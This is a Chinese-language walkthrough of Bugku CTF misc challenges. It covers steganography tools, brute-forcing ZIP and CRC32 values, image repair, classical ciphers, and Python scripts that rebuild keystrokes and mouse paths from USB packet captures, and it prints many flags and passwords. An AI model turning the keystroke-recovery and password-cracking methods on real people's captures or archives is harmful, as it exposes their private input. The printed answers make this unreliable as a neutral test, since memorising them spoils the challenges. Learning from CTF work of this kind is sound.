66 6c 61 67 7b 64 63 37 36 61 31 65 65 65 36 65 33 38 32 32 38 37 37 65 64 36 32 37 65 30 61 30 34 61 62 34 61 7d 
```

把十六进制转为字符串即是flag

## 贝斯手

给了丁建国的图片，加密flag.zip，和介绍.txt，txt文件中给出了flag.zip密码的线索，四位数的出生年份

直接选择Ziperello暴力破解，密码是1992，flag.txt中的内容:

> 5+58==327a6c4304ad5938eaf0efb6cc3e53dcCFmZknmK3SDEcMEue1wrsJdqqkt7dXLuS

5+58的意思是md5+base58

前半部分`327a6c4304ad5938eaf0efb6cc3e53dc`md5解密后`flag`
后半部分`CFmZknmK3SDEcMEue1wrsJdqqkt7dXLuS`base58解密后`{this_is_md5_and_base58}`

## 想要种子吗

下载得到一个jpg文件，在详细信息中有提示`steghide`隐写

这里密码为空，直接回车即可

```
# steghide extract -sf torrent.jpg                                                                                            
Enter passphrase: 
wrote extracted data to "123.txt". 
```

得到的123.txt中是一个网盘链接

> https://pan.baidu.com/s/1oXOf-mKm5TOrbNWg0suWfg m6qn

下载得到

hint.txt中的内容是`six six six`，密码是`666666`（直接爆破也可得到)，拿到第二个图片

用010editor打开，发现尾部有额外数据，binwalk分离出flag.png

用010editor打开，发现crc32校验码出错，说明宽高需要修改，同时在尾部发现[维吉尼亚密码的在线解密网站](https://www.guballa.de/vigenere-solver)

把图片高度改高(png图片很好改)

拿到刚才的网站解密

没给种子，差评

## 放松一下吧

这题获取压缩包密码的途径就是那个iwanna小游戏…

我之前做过一个很类似的题目，不记得在哪里做的了(好像是旧版bugku)，那个题的思路是`先通过一关`，然后修改存档的那个文件。比如我本来处于第二关，把2改成5就到最后一关获得flag，但是…这个图我一关都过不去(手残)

游戏这里的思路也是看八神(tql)的，先是确定Game Maker版本为GM8

然后用[GM8Decompiler](https://github.com/OpenGM8/GM8Decompiler)反编译，得到gmk文件，然后在room3找到密码`happy_i_wanna`

这里的压缩包名、图片名都是提示，即使用`F5-steganography`隐写工具解密图片

passwd.txt的内容

> password:🐭🐭🐭🐭🐭🐭🐭🐭
> 贝斯的老大也可以解这个问题

贝斯的老大指的是`base100`，使用[在线工具](http://www.atoolbox.net/Tool.php?Id=936)解密得到密码`66666666`

在F5-steganography-master目录下打开终端，执行
`java Extract 绝对路径.jpg -p 66666666`,在同目录下会得到一个output.txt，打开得到flag

## cisco

> 题目描述:密码是flag

这个题需要下载特定软件，我是之前做的，软件已经删了不想再下了，就只简述一下解题过程。

下载得到1.txt和2.txt，后者的内容`U2FsdGVkX19T7VS86emCFReuh2Tjc3ZtbB5HMHebPd8=`，直接base64解码得到一堆乱码，几经尝试发现是`AES`的`base64形式密文`，这里使用的工具是`CaptfEncoder`

结合这个提示和题目名可知要把1.txt的后缀改为`pka`，然后用`Cisco Packet Tracer(思科)`打开,旧版本可能打不开，所以推荐使用最新版7.3.1

然后点击画面中的交换机，按回车键进入命令输入模式，输入特权模式命令en或enable。提示输入密码，输入`flag`后回车，然后show run找到flag

## 被勒索了

使用win7虚拟机，根据提示

> 火绒病毒库隔离区等数据目录：C:\ProgramData\Huorong

发现我的c盘中"没有"`ProgramData`这个目录，发现是被隐藏了，先把隐藏给取消，步骤如下


根据题目描述可知，这题需要用到火绒，先下载，发现`C:\ProgramData\Huorong`中有一个`Sysdiag`文件夹，题目也给了一个内容相似的同名文件夹，猜想需要进行替换。

替换的过程总是涉及权限问题，因为很久没用win7系统了，最后在网上找到了[解决方法](https://zhidao.baidu.com/question/330126875.html)，用超级管理员身份登陆后，最先把火绒卸载，然后在`C:\ProgramData`新建一个`huorong`文件夹，把题目给的`Sysdiag`文件夹放到里面，权限改为只读

然后再重新安装火绒，这样显示说明对了
根据另一个提示，先把只读取消，然后打开火绒的隔离区

恢复这个文件得到flag


## 三色绘恋

下载得到三色绘恋.jpg，binwalk分离出一个加密的zip文件，经测试发现不是伪加密

经过测试发现需要修改图片的高度，因为是jpg文件，修改宽高比png文件更复杂，但是使用`010editor`的`jpg.bt模板`就很方便了

修改后得到密码`a56v1sa6fc`，解密得到flag


## 只有黑棋的棋盘

下载得到加密的flag.zip和一张棋盘图


用winhex打开图片，发现尾部有额外数据，但是这里的文件头被篡改过，不能直接foremost出来，手动把0506改成0304再提取

得到passwd.txt

> …
> …
> CDEFGHIJKLMNOPQRSTU
> BCDEFGHIJKLMNOPQRST
> ABCDEFGHIJKLMNOPQRS

根据规律补全(对应棋盘图片)

> JKLMNOPQRSTUVWX**Y**ZAB
> IJKLMNOPQRSTUVWXYZ**A**
> HIJK**L**MNOPQRSTUVWXYZ
> GHIJKLMNO**P**QRSTUVWXY
> FGHIJKLMN**O**PQRSTUVWX
> EF**G**HIJKLMNOPQRSTUVW
> **D**EFGHIJKLMNOPQRSTUV
> CDEFGHIJKLMN**O**PQRSTU
> BCDEFGHIJKLMN**O**PQRST
> ABCDEF**G**HIJKLMNOPQRS

从下往上即为密码`GOODGOPLAY`,解密压缩包得到flag.png，修改高度得到flag


## 蜘蛛侠

四个加密文件，注释部分给出密码的提示

这个是苏州码子，〡 〢 〣 〤 〥 〦 〧 〨 〩 十分别对应1-10

压缩包密码是`肆肆壹拾陆玖玖捌拾壹`，根据hint.txt得知需要根据加密脚本，写出解密脚本得到file.jpg

> key.jpg数据被py加密啦！！！
> 解密还原成file.jpg吧

把给的脚本稍作修改，运行跑出file.jpg


用010editor打开file.jpg，在尾部发现一串代码`IQ2?kEcY/KK#ojDrHoR'seB`

base92解码得到:`password:SilentEye`,使用SilentEye解密flag.jpg即可

## baby_flag.txt

下载得到`baby_flag.txt`，文件尾部有一串十六进制

> 3561573935594f50364a6550354c7147354c6941354c69713559364c35377970355979463737794d354c32473570697635706148354c7532356153303561573935594f503570794a35344b35365a657536614b59

先转ascii，再base64解密得到`好像藏了一个压缩包，但是文件头好像有点问题`

用010editor打开，借助模板可知这是一个jpg文件，并且后面有一个疑似RAR文件头的东西(其实可以不用上面的提示)

把文件后缀改为jpg，修复RAR文件头并提取出来，发现压缩包是加密状态，猜想密码应该在图片里

图片是463*344的，先把高度改成500，没发现东西，但是题目的提示是

> hint:还能再高亿点点

索性直接改成900，得到密码`0q1W2e3R4t`

打开压缩包得到real flag haha.txt

> 真是一种丑陋的语言呢
> oh!!!ugly programming language!!!
> 
> D’`r#?oJ[;|9Wx0/et?rqM(-9JI6(hEgeBc.x,<;)yrZvo5mrkji/Plkjib(fedFE[!Y^]\[Tx;QuU7SRKo2NGLEDh+AFEDC<;_?>~}5Y987w5.R21qp('K+$j"'~}${"y?`_{tyrwp6tmUqj0nmleMib(fe^c"`_^@VUTxXWV8NSRKJn10LKJIHAe?'=<;:9]76Z:981w543,P*)M-,%k)"F&}${zy?>_{zyr8YXtmlk1onmlNMib(I_d]\"`BA]\Uy<;QPUTMLpJ2NMLKDhHA)E>b%$@?8}5Y981w543,P0/o-&Jk)"!~D1

结合第二个hint`Esoteric programming language`，开始使用搜索引擎…，一通操作后发现和`Malbolge`很像，这个语言被称为最难的5种编程语言之一…，然后又花了一些功夫找到一个[在线网站](https://www.tutorialspoint.com/execute_malbolge_online.php)来解代码，这个网站访问可能有点慢(也许是我没有科学上学的原因?)


搜索引擎最好用google或者wiki，百度八太行

## 有黑白棋的棋盘

下载了三个加密的zip压缩文件，其中一个名为`4easynum.zip`，很明显提示密码是四位数，爆破得到`7760`，打开得到一个图片和文本：

> 图片解出来是棋盘的压缩包密码
> 棋盘是flag的密码


题目描述也提示了，这个是古精灵语密码，对照得到棋盘的压缩包密码:`bugkupasswd`

解密第二个压缩包得到关键图片
右键查看属性获得提示，base58解密得到`不用去找密码表啦题目就是`
下面还有三串代码，拼在一起后base58解密得到`白棋提了哪些黑棋呢`

查了一下围棋的基本规则，这里需要找到被白棋吃掉的黑子的**空位**，位置如下，得到最后一个压缩包的密码`goodctfer`（测试后发现是小写）

> 1G 2O 3O 4D 5C 6T 7F 8E 9R

得到图片`flag-height.jpg`，这里的height提示的是修改图片高度(010editor真的好用)


## 奇怪的png图片

下载得到一个怪怪的png图片，用winhex打开发现IHDR块没有报CRC错误，应该是被修改过

用binwalk分离出一个压缩包文件，内含五个加密的文本文件

注意到pass1、pass2、pass3均为四字节，直接crc32爆破,连在一起得到`Awsd2021mzy0`，但是这个密码显示错误，考虑到还有一个`图片真实crc32.txt`，猜想密码还有一段在里面

我的做法就比较简单粗暴了，因为是6字节，我就直接用`crc32-master`爆破

> C:\Users\17422\Desktop\解题\脚本\crc32碰撞\crc32-master>python3 crc32.py reverse 0x59f1d4be
> 4 bytes: {0xde, 0x9f, 0xfd, 0x06}
> verification checksum: 0x59f1d4be (OK)
> alternative: 2KHAZK (OK)
> alternative: 9070yo (OK)
> alternative: FRzUbd (OK)
> alternative: GNt8xi (OK)
> alternative: I1WyA7 (OK)
> alternative: NXl6nL (OK)
> alternative: PzWHOM (OK)
> alternative: WcPvef (OK)
> alternative: YlOFYh (OK)
> alternative: aDNRsJ (OK)
> alternative: c5fqG_ (OK)
> alternative: oKQbOD (OK)
> alternative: pudqtH (OK)
> alternative: uq8An2 (OK)

这么多个结果挨个试，结果第二个就试出来了hhh,密码是`Awsd2021mzy09070yo`，然后就得到flag了

* * *

做完回头去看了八神的wp，发现正经步骤如下:

> 注意 图片真实crc32.txt 这一文件，其文件大小为6，但十六进制形式的CRC32值应该有8位。考虑一种可能性，即PNG图片IHDR块的真实CRC校验位（在此暂不考虑PNG内其它数据块如IDAT块等的CRC校验位）和该txt文件的CRC32值是一致的，均为0x59F1D4BE，尝试在此基础上爆破图片的宽和高：

```
import zlib
import struct

filename = 'C:/Users/Administrator/Desktop/file.png'
with open(filename, 'rb') as f:
    all_b = f.read()
    data = bytearray(all_b[12:29])
    n = 4095
    for w in range(n):
        width = bytearray(struct.pack('>i', w))
        for h in range(n):
            height = bytearray(struct.pack('>i', h))
            for x in range(4):
                data[x+4] = width[x]
                data[x+8] = height[x]
            crc32result = zlib.crc32(data)
            if crc32result == 0x59F1D4BE:
                print("宽为：", end = '')
                print(width, end = ' ')
                print(int.from_bytes(width, byteorder='big'))
                print("高为：", end = '')
                print(height, end = ' ')
                print(int.from_bytes(height, byteorder='big')) 
```

结果得到原图的高和宽均为`511`，crc32值为`59F1D4BEh`,改完之后扫描图片中的二维码得到提示

> pass4为crc32爆破出90开头那一个

## 爱因斯坦yyds

binwalk分析发现图片内有7z文件

```
volcano@kali:~/桌面$ binwalk file.jpg 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, EXIF standard
12            0xC             TIFF image data, big-endian, offset of first image directory: 8
14873         0x3A19          Copyright string: "Copyright (c) 1998 Hewlett-Packard Company"
47022         0xB7AE          7-zip archive data, version 0.4 
```

直接binwalk -e无果，于是手动把文件剥离除了，发现需要解压密码；尝试过后，把图片高度改到500，得到解压密码`bugku666`

得到flag.rar和密码.txt:

> MuS4que9l+mprOeLrOijgeiAheaMh+aMpeedgOS4gOmYn+e8luWPt+S4umFiY2TnmoTln7rlm6DnqoHlj5jnmoTnvZfpqazni6zoo4HogIXmnaXmipPogIHpqazvvIzmlLvnv7vkuoY25Liq5pyJ5oqk5qCP55qE5Z+O5aKZ77yM54S25ZCO5LuW5Lus6aG65Yip55qE5oqT5Yiw5LqG6ICB6ams44CC5bm25b6X5Yiw5LiA5Liy5a2X56ym77yab2Vtc294ZXBkank

base64解密后得到

> 2个罗马独裁者指挥着一队编号为abcd的基因突变的罗马独裁者来抓老马，攻翻了6个有护栏的城墙，然后他们顺利的抓到了老马。并得到一串字符：oemsoxepdjy

这句话信息量可大了…
`罗马独裁者`指的是凯撒大帝，对应`凯撒`
`基因突变的罗马独裁者`对应`变异凯撒`
`有护栏的城墙`对应`W形栅栏`

**解密步骤**
①2个罗马独裁者→`位移数为2的凯撒密码`
解密得到`mckqmvcnbhw`

②编号为abcd的基因突变的罗马独裁者→`秘钥为abcd的某种凯撒变种密码`,测试后发现是`维吉尼亚密码`
解密得到`mbinmuakbgu`

③攻翻了6个有护栏的城墙→`栏数为6的w型栅栏密码`
解密得到`mimabugkunb`

前两步可以用[bugku在线工具](https://tool.bugku.com/jiemi/)，第三步需要换[在线工具](http://www.atoolbox.net/Tool.php?Id=777)

所以压缩包密码`bugkunb`，解压得到flag.txt:

> U2FsdGVkX190Qzuyvdil3MZ9LQUzBbQaXJNzVFBzcAf5CzdvUZ5wdQ==

虽然是==结尾，base64解密无果，还是做题太少了，借鉴八神的wp，确定这个是`密钥为E=MC²的DES密码`，关于这个秘钥也是从图片中得到的，我也没弄出来…

使用CaptfEncoder解密


## 贝氏六十四卦

下载得到一个bs64gua.png，放在Stegsolve里分析发现有lsb隐写痕迹，于是提取保存

png文件头前面多余部分删去，得到分辨率为48*48的png图片

之前就解到这个地方卡住了，对着这样一张图确实没啥思路…一直就扔着没看了，直到前几天的DJBCTF，八神师傅又出了一个`碑寺六十四卦`，整体思路和这题类似，但是比这题简单，那题解出来的图片如下(忘记存图了，直接用Mumuzi师傅的图了)

很显然，DJB这个题把空余部分的空白删去，再把白色的细线删去，紧凑在一起，就和bugku这题的题如出一辙了，其实知道了原理，剩下的就很简单了，可以把图片一块块分割开来，分别解出对应数字，再转ascii，也可以写脚本，我写的就很繁琐了，这里贴上八神的脚本：

```
from PIL import Image

img = Image.open('C:/Users/Administrator/Desktop/1.png')

def check(x, y):
    p = img.getpixel((x, y))
    if p == 0:
        return '1'
    if p == 255:
        return '0'

res = ''
for y in range(8):
    for x in range(8):
        for l in range(6):
            res += check(6*x+2, 6*y+l)
print(res) 
```

得到一串二进制

> 010110100110110101111000011010000101101000110011011101000101001001100001010101110100011001110101010110000011000001110100001100010110001001101100001110010101010101100100010101110011010101100110010101000101011101010110011101010101101000110001001110010101100101100100010101100011100101010100011000100011001000110101011011100101100000110001010011100110111101100001010110000011000000111101

先转为[十六进制](https://tool.lu/hexconvert/)，再[转ascii](https://coding.tools/cn/hex-to-ascii)，然后[base64解码](https://ctf.bugku.com/tool/base64)得到flag

## baby_misc

下载得到
先看`注意事项.txt`:

> 截图的时候没截好所以图片中有个200%，不要在意哈（怕你们被迷惑了）。下次我注意
> 还有就是，这只小猫咪，它，瞎了。
> （py3）

第一个就是说作者失误多截了一个200％,不要被误导，后两个提示暂时看不出来具体指什么，压缩包是加密的，先研究`小猫咪.jpg`,用010editor打开，发现文件头有问题

这是一个png文件，在最前面套上了jpg格式的文件头，将其修复

binwalk分析得知这张图片里还隐写了另一张图片，foremost分离出来两张相似的图片

这个时候结合`注意事项.txt`的后两个提示，小猫咪瞎了是指`盲水印`，`py3`是因为常用的那个[盲水印工具](https://github.com/chishaxie/BlindWaterMark#blindwatermark)有py2和py3两个版本，这里指定py3的

使用盲水印工具处理，注意，两个图片的顺序调换，解出的图片不一样，建议两种顺序都试试

```
D:\盲水印\BlindWaterMark-master>python3 bwmforpy3.py decode 00000000.png 00000657.png 1.png
image<00000000.png> + image(encoded)<00000657.png> -> watermark<1.png> 
```

解出图片得到密码:`wowblind`

解压缩包得到加密的flag.zip和password.txt:

> 萌新专属RSA：
> 已知R=65537
> N=21321423135312411313
> 求出来十进制d就是解压密码

出题人后面解释了，这个R是打错了，应该是`e=65537`,很基础的rsa，先到[http://factordb.com/](http://factordb.com/)把n分解成`p=2930371`、`q=7276014926203`,然后用RSAtools解出d=`1653347504416359113`

解密得到flag.txt

> NGZlbmNl
> eW91IG5lZWR+
> VGhhbmsgeW91
> Zm9yIGJlaW5n
> YWJsZSB0b4++
> ZG8gdGhpc5++
> c3RlcC6+
> VGhlIGRpZmZpY3VsdGllc3++
> YWhlYWQgc2hvdWxk
> bm90IGJlIGRpZmZpY3VsdH++
> Zm9yIHRob3Nl
> d2hvIGNhbk++
> ZG8ndGhpcyBzdGVwLn++
> Tm93IGl0J3MgSmFudWFyeV++
> MTUgb2YgdGhl
> MjFzdCB5ZWFyLn++
> SWYgeW91IGFyZb++
> bHVja3kgZW5vdWdo
> dG8gc2VlIHRoZT++
> d2hvbGUgcGFzc2FnZQ++
> YmVmb3JlIHRoZW++
> bmV3IHllYXIs
> SSB3aXNoIHlvdT++
> YSBoYXBweW++
> bmV3JHllYXJ+
> aW6gYWR2YW5jZS6+
> SW4gYWRkaXRpb24s
> SSB3aWxsIHdyaXRl
> YSBxdWVzdGlvbiBhYm91dG++
> c29jaWFsIGVuZ2luZWVyaW5n
> b24nYnVna3Und2hlbn++
> dGhlIG5ldyB5ZWFy
> aXMnY29taW5nLn++
> SSBob3BlIHlvdV++
> aGF2ZSBh
> Z29vZCB0aW1l
> QnkgdGhlIHdheSx+
> SSdtIGErbmV3IENURmVyLr++
> SSBhbHNv
> d2FudCB0b9++
> d29yayBzaWRlIGJ5
> c2lkZSB3aXRo
> dGhlIGRhbGFvLn++
> SSBjYW1lIGludG8g
> Y29udGFjdCB3aXRo
> c1RGIHdoZW4gSc++
> d2VudCB0byB0aGX+
> Q29sbGVnZSBpbiAyMDIwLj++
> SSBob3BlIHdl
> Y2FuIGFsbH++
> d29yayB0b2dldGhlct++
> SSB3b25kZXJ+
> aWYgc29tZW9uZSB3aWxsIK++
> cmVhbGx5IHRyYW5zbGF0ZSD+
> dGhpcyBwYXNzYWdl
> YW5kIGVpZ2h0IGdvZG++
> dGhpbmsgaXQgaXN+
> dGhlIGVhc2llc3Q+
> bWlzYyBxdWVzdGlvbn++
> Zm9yIGhl
> YnVna3U2Ni++

很眼熟，应该是`base64隐写`，不过把`=`换成`+`了,我的做法是把`+`换成`=`，然后`base64隐写解密`得到

应该是w型栅栏，前段时间做题的时候接触过，[在线解密](http://www.atoolbox.net/Tool.php?Id=777)(栏数为4)得到flag，记得把**首字母大写**

## 花点流量听听歌

下载得到一个mp3格式的文件，用010editor打开发现尾部有额外数据和一段hint：

foremost分离出一个压缩包，内含三个文件

分析mp3文件，先用audacity打开，结果报错打不开，于是使用Adobe Audition查看频谱图，发现这个位置不太一样

放大后发现是`beaufort-cipher`,这个一种加密，应该是后面会遇到的

然后分析流量包，打开发现都是USB的流量，[参考文章](https://www.cnblogs.com/ECJTUACM-873284962/p/9473808.html)学习导出usb流量的命令
执行命令

```
┌──(volcano㉿kali)-[~/桌面]
└─$ tshark -r whereiskey.pcapng -T fields -e usb.capdata | sed '/^\s*$/d' 
```

将导出的数据保存在usb.txt中:

因为网上找到的脚本大部分都是有冒号的，所以先写个小脚本填上冒号，得到out.txt

这里附上我从网上py来的脚本

```
normalKeys = {"04":"a", "05":"b", "06":"c", "07":"d", "08":"e", "09":"f", "0a":"g", "0b":"h", "0c":"i", "0d":"j", "0e":"k", "0f":"l", "10":"m", "11":"n", "12":"o", "13":"p", "14":"q", "15":"r", "16":"s", "17":"t", "18":"u", "19":"v", "1a":"w", "1b":"x", "1c":"y", "1d":"z","1e":"1", "1f":"2", "20":"3", "21":"4", "22":"5", "23":"6","24":"7","25":"8","26":"9","27":"0","28":"<RET>","29":"<ESC>","2a":"<DEL>", "2b":"\t","2c":"<SPACE>","2d":"-","2e":"=","2f":"[","30":"]","31":"\\","32":"<NON>","33":";","34":"'","35":"<GA>","36":",","37":".","38":"/","39":"<CAP>","3a":"<F1>","3b":"<F2>", "3c":"<F3>","3d":"<F4>","3e":"<F5>","3f":"<F6>","40":"<F7>","41":"<F8>","42":"<F9>","43":"<F10>","44":"<F11>","45":"<F12>"}
shiftKeys = {"04":"A", "05":"B", "06":"C", "07":"D", "08":"E", "09":"F", "0a":"G", "0b":"H", "0c":"I", "0d":"J", "0e":"K", "0f":"L", "10":"M", "11":"N", "12":"O", "13":"P", "14":"Q", "15":"R", "16":"S", "17":"T", "18":"U", "19":"V", "1a":"W", "1b":"X", "1c":"Y", "1d":"Z","1e":"!", "1f":"@", "20":"#", "21":"$", "22":"%", "23":"^","24":"&","25":"*","26":"(","27":")","28":"<RET>","29":"<ESC>","2a":"<DEL>", "2b":"\t","2c":"<SPACE>","2d":"_","2e":"+","2f":"{","30":"}","31":"|","32":"<NON>","33":"\"","34":":","35":"<GA>","36":"<","37":">","38":"?","39":"<CAP>","3a":"<F1>","3b":"<F2>", "3c":"<F3>","3d":"<F4>","3e":"<F5>","3f":"<F6>","40":"<F7>","41":"<F8>","42":"<F9>","43":"<F10>","44":"<F11>","45":"<F12>"}
output = []
keys = open('out.txt')
for line in keys:
    try:
        if line[0]!='0' or (line[1]!='0' and line[1]!='2') or line[3]!='0' or line[4]!='0' or line[9]!='0' or line[10]!='0' or line[12]!='0' or line[13]!='0' or line[15]!='0' or line[16]!='0' or line[18]!='0' or line[19]!='0' or line[21]!='0' or line[22]!='0' or line[6:8]=="00":
             continue
        if line[6:8] in normalKeys.keys():
            output += [[normalKeys[line[6:8]]],[shiftKeys[line[6:8]]]][line[1]=='2']
        else:
            output += ['[unknown]']
    except:
        pass
keys.close()

flag=0
print("".join(output))
for i in range(len(output)):
    try:
        a=output.index('<DEL>')
        del output[a]
        del output[a-1]
    except:
        pass
for i in range(len(output)):
    try:
        if output[i]=="<CAP>":
            flag+=1
            output.pop(i)
            if flag==2:
                flag=0
        if flag!=0:
            output[i]=output[i].upper()
    except:
        pass
print ('output :' + "".join(output)) 
```

运行后得到

```
thk<DEL>epe<DEL>asy<DEL>swoi<DEL>rds<DEL>notu<DEL>hes<DEL>reb<DEL>?6<DEL>
output :thepasswordnothere? 
```

这里要结合描述.txt一起看，这里的意思是删除了的才是重要的

上面的`<DEL>`是删除，一共删除的内容是`keyisusb6`,直接拿这个去解密压缩包不对，只用其中一部分也不是，回过头发现前面有两个个提示还没用:`beaufort-cipher`和mp3文件尾部的那串密文

解密得到压缩包密码`happyeveryday`,然后得到flag


## 善用工具

> 描述: webp

这个题真是挺折磨的,下载得到三个文件

其中hint.png其实不是图片，是一段文本信息，其中要解密的如下

> 8:V5Y:7,Y,3MU=$8D:D%11&9O6BY .G,M

说实话这个看了挺久不知道是啥，然后打开`CaptfEncoder`挨个试吧(菜狗)
发现uuencode解密后得到`keyis91;utF$jAQDfoZ.@:s-`

注意了，这里就开始ex了，我直接拿`91;utF$jAQDfoZ.@:s-`去解压显示密码错误，然后又分段使用还是错误，其实要把后面这些拿去**base85**解密一次(整吐了)

得到key:`Camouflage`,这个不是压缩包的密码，是工具名的提示，去看`sapphire .jpg`,常规隐写套路查看了一圈没得到线索，这里应该就是题目名所说的善用工具了，结合提示知道是[Free_File_Camouflage](https://m.3dmgame.com/soft/166800.html)


解出一个docx文档，取消隐藏文字看到解压密码`XiAo_1U`,解压缩包，改文件后缀为`webp`

百度一下webp隐写查到一个解密工具`stegpy`:
直接`pip3 install stegpy`即可完成安装

使用stegpy解密得到flag

> D:\Python38>stegpy C:\Users\xxxxx\Desktop\csgo.webp
> bugku{rea1ly_miss_yoU}

## 开始也是结束

下载得到`Cattle.jpg`，foremost分离出一个加密的压缩包`11549.zip`，压缩包的密码就是文件名那五位数，然后多层套娃，和攻防世界的`Miscellaneous-300`很像，可以用那题的脚本

没细数，好像是套了将近1000层，最后得到`bugku.zip`(2314.zip的密码是bugku)

题目提示的是rockyou文件，应该是一个字典或者文件里有密码的提示，但是我没找到…我先是尝试爆破，跑了一会没跑出来，然后尝试用我的密码字典爆破，结果一秒出…

压缩包密码`letsgetiton`,解压得到一张和`Cattle.jpg`长得一样的图片，我第一反应是盲水印，后来才发现文件尾就放着flag，作者好像打错字母了…


## 扭转乾坤

下载得到一个扭转乾坤.png，一同分析后，用`Stegsolve`打开时发现有lsb隐写痕迹，提取出来内容

分析上半部分的十六进制内容

直接放在winhex里看不出东西

此时突然发现最后八位数是`4030B405`,倒过来是`504B0304`,正好是zip文件的文件头,于是把整段文本倒序再放到winhex里保存为1.zip，打开，这里我用winrar打开时报错，用7z和360压缩可以正常打开，不知道是什么原因

打开得到注意事项.txt:

> 内容开头为字母(即bugku)
> lost：
> 前3后1

和flag128.png
直接扫，发现报错，应该是条形码被改动过需要修复

结合提示知道，前面缺了三条，后面缺了一条，与`bugku{`和`}`的条形码对比

然后手动修复…

扫码得到flag

## 欢乐牛年

> 提示:隐藏文字，Zero width

压缩包的注释信息中有解压密码的hint

> this is password:
> y 20 p m 12 9 c 1
> pay attention:
> alphabet(lower case)—>num
> num—>alphabet(capital letter)
> /*no hint more happiness*/

根据提示需要把**小写字母转换为数字，数字转换为大写字母**，转换结果是:`25 T 16 13 L I 3 A`,把空格删去就是压缩包的密码了

解出的压缩包也是加密的，显然要分析流量包得到密码，发现都是usb的流量

先用tshark命令提取数据：

```
┌──(volcano㉿kali)-[~]
└─$ tshark -r secret.pcapng -T fields -e usb.capdata | sed '/^\s*$/d' >1.txt 
```

这里其实是鼠标流量，和上次的键盘流量明显不一样

这里也是嫖的脚本

```
nums = []
keys = open('out.txt','r')
posx = 0
posy = 0
for line in keys:
    if len(line) != 13:
         continue
    x = int(line[4:6],16)
    y = int(line[6:8],16)
    if x > 127 :
        x -= 256
    if y > 130 :
        y -= 265
    posx += x
    posy += y
    btn_flag = int(line[2:4],16)
    if btn_flag == 1:   
        print posx ,posy
keys.close() 
```

解出来的结果是一个个坐标

使用**gnuplot**作图(红框里的是正确命令)

没有**gnuplot**的可以执行命令安装：`sudo apt-get install gnuplot`

解出来的这个图看起来及其别扭…猜想需要翻转一下，我是用word进行翻转的

这下能认出密码`N65t92c8`,解出一个有几个小故事的`牛年大吉.txt`和加密的压缩包，但其实这几个小故事只是一个幌子，用winhex打开`牛年大吉.txt`，发现很多零宽字符

于是在linux下使用vim命令打开txt文件，可以看到其中隐藏的零宽度字符

使用[在线工具](https://offdev.net/demos/zwsp-steg-js)解密:

base62解密得到`password:happyoxday`

解压得到的`棋盘-入门.jpg`中分离出一个压缩包，解压得到密码本

不愧是棋圣(套娃)师傅！在棋盘图片中标出落子位置，对照密码本得到密码`htpchbar`

得到和一个txt文件

这个很明显是`Aztec Code`,google到一个[在线解码网站](https://products.aspose.app/barcode/recognize/aztec#result)，直接扫描得到flag

## Improve yourself

> 描述 : Conway’s Game of Life

下载得到几个加密文件，其中四个txt文件均不大于6字节，可以爆破出来，它们的文件名解出来都是数字，应该是它们的位置，即**爆破出四段文本按照正确顺序排列**得到`解压密码`

正常跑会出来很多结果，从里面挑选有意义的出来，例如

最后得到解压密码:`bugku_youareprettygood`

然后看next zip passwd.png
这里有两种思路，结合这里的提示，可以知道每一个图下一个状态对应的数字就是密码，也就是说密码是`九位数字`，可以直接爆破；

正常解法就是结合题目描述里的提示找到[在线工具](http://home.ustc.edu.cn/~zzzz/lifegame/lifegame.html),先清空画面，再照着给的图片点亮格子保持一致

然后点击`单步演化`,数格子得到密码(第一个图演化结果是空的，对应0)为:`012369849`

解压得到flag.exe和一`passwd and mark=0.jpg`，用winhex打开flag.exe，发现它其实是一个压缩包，改后缀为`zip`,需要密码

用winhex打开jpg，发现文件尾部有额外数据(png图片的base64形式)

使用[在线工具](https://tool.jisuapi.com/base642pic.html)，得到一张残缺的二维码
[二维码的在线修复网站](https://merricx.github.io/qrazybox/?tdsourcetag=s_pctim_aiomsg)，结合jpg文件名的提示，需要修改如下

花了几分钟补完的结果，扫码得到`a1s2d3f4g5`

解压得到flag

## 神奇宝贝

压缩包中有两个文件，但是在解压的时候报错，用010editor打开，运行模板时报错

同时发现文件尾部是`504B`,说明这是一个zip文件，把文件头修改为`504B0304`后可以解压出压缩包和一个图片
U1S1，这个东西真没见过，拍照识图也没找到，最后还是其他师傅提示的:这是 **《精灵宝可梦》** 中的精灵`未知图腾`,拥有28种形态
~~终究是吃了没文化的亏~~ ，这个动漫我没看过…对照上图得到另一个压缩包的密码`whereisflag`

然后得到**加密的压缩包**和`层层加密.txt`:

> 00111 1010 00001 0 11110 00011 100 100 11100 00111 11111 1000 1010 01 01 1000 100 00000 00000 00111 0 11000 00001 00000 11000 1000 10000 11110 11111 11100 0010 10000
> 国王把明文撒了盐之后交给士兵，士兵在途中经过了两个交叉的篱笆地才将密文传交给摩斯侦探。

根据描述可知解密的**第一层**是`摩斯密码`，**第二层**是`栏数为2的栅栏密码`，**第三层**的加盐指的是`md5算法`

```
第一步，把1换成- 把0换成.  莫斯密码解密得到
2C4E93DD820BCAABD552E7457B6908F6
第二步，经过反复测试，发现是连续解密两次 栏数为2的普通栅栏，我找的在线网站得出的结果md5解密均得不出值，最后是在CaptfEncoder里解出的
298CDE70C32A57B84D0A546FEDBB2596
第三步，[md5解密](https://www.somd5.com/)即可
得到密码: PassW0rd 
```

解压得到一张图

手动把图中文字抠出来(出题人太狗了)

> MTM4NDAwMjE4MTYxNTg5Nzc2ODk2NzcxOTYyMTQzMTgzMzcwNjU0Njg0NDU1MTk4MzcwOTk3ODA3NDU1MDUzMjI1OTc5MTI2Mj
> UxMDM4MjY3MDU5NzU4OTQ0MzAxNTQ2Nzg0OTU2MTY1NTUxMTQ4MDMxNzE4MDg4NzM4ODA1MzgyNDgyOTE0MTEwMTA5MzMxNTI4Mzg0OTI4OTM5MzgxMjg3MzA2MDE4NjExNDEyNTE2ODM4MzcyNjUzMzkz

将两端文字拼在一起，base64解密得到：

> 138400218161589776896771962143183370654684455198370997807455053225979126251038267059758944301546784956165551148031718088738805382482914110109331528384928939381287306018611412516838372653393

就我的做题经验而言，一长串十进制数可以`转十六进制后再转ASCII字符`,也可以`以某种规律转换为坐标然后画图`，或者`转为二进制后画出一张二维码`。

前两种方法试了行不通，转为二进制数后发现长度是`625`，即25*25，然后试着转为二维码

```
import PIL
from PIL import Image
MAX = 25  
img = Image.new("RGB",(MAX,MAX))
